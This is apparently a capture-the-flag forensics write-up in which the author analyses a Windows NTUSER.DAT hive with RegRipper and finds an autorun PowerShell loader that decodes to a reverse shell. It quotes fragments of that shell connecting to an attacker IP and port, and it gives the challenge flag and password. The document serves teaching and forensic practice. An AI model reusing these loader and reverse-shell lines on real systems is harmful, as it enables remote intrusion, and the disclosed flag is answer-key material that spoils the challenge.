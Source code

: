 ### TITLE
>Sổ đăng ký
### DESCRIPTION
>Hòa thấy hiện tượng lạ mỗi khi anh ta khởi động máy tính. Anh ta nghĩ rằng việc tải các video không lành mạnh gần đây đã khiến máy tính của anh ta bị hack.

>Tải challenge: https://drive.google.com/file/d/1pShye_YtnUuIObPdnq9PeiIge0Oelsix/view?usp=drive_link (pass: cookiehanhoan)

>Format Flag: CHH{XXX}
### CATEGORY
>Forensics
### HINT
>None
### DIFFICULTY
>easy
### Pass
>cookiehanhoan
### Tool
>[RegRipper](https://github.com/keydet89/RegRipper3.0)
### FLAG
>CHH{N0_4_go_n0_st4r_wh3r3}
### SOLVED
So download the zip file and you get the NTUSER.DAT file. Do a little research and you will find out that it stores user profile settings from the Windows registry. 
![image](https://github.com/user-attachments/assets/5214804f-eb55-499e-95f5-52c78d4c1004)

 Continue to use the __regRipper__ to extract forensic artifacts from Windows Registry hives to a report.txt file. After that take a look at the report and I stumbled upon the powershell.exe that being set autorun with a sus obfuscation script. A brief analysis of the script: This PowerShell script is obfuscated something that extracts, decompresses, and executes hidden code.

![image](https://github.com/user-attachments/assets/3bc88a07-83d0-4763-8bc5-a87544198746)

+ __[coNVeRT]::FRoMBAse64stRInG('<Long Base64 string>')__: Extracts hidden malicious code from the Base64-encoded string.
+ __neW-obJEct io.COMprEssIon.dEFlATesTReAm( [sySTem.IO.memorYSTREam] <Base64DecodedData>, [SYSTEM.iO.ComPReSSion.CoMPrEsSIonmODe]::DeCOmpresS)__: Decompresses the extracted binary using Deflate compression.
+ ___FOREAcH-object{ neW-obJEct io.streAMrEadeR( $_,[sysTem.TExt.EnCoDING]::asCIi )}).reaDToEnD()__: Reads the decoded PowerShell script into a string.
+ __|inVOKe-exprEsSIon__: Executes it with Invoke-Expression, likely running malware.

So our attention is the Base64 string so I use Powershell to decode it and write the result to __output.txt__ (__decode.txt__). Unsurprisingly, it is a __reverse shell__ script that print out the flag, read the script and you will get the flag!!

P/S: Analyze the reverse shell:
+ __$client = New-Object System.Net.Sockets.TCPClient("192.168.253.27",4953);__: Creates a TCP connection to 192.168.253.27:4953. Attacker machine!!
+ __while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){__: Loops indefinitely to receive data from the attacker's machine.
+ __$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);__: Converts received bytes into a command string.
+ __$sendback2 = $sendback + "<Flag>" + (pwd).Path + "> ";__: Appends a flag to the output 
+ __$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);__: Converts output to ASCII bytes for transmission.
+ __$stream.Write($sendbyte,0,$sendbyte.Length);__: Sends the command output back to the attacker's machine.
#### END!!
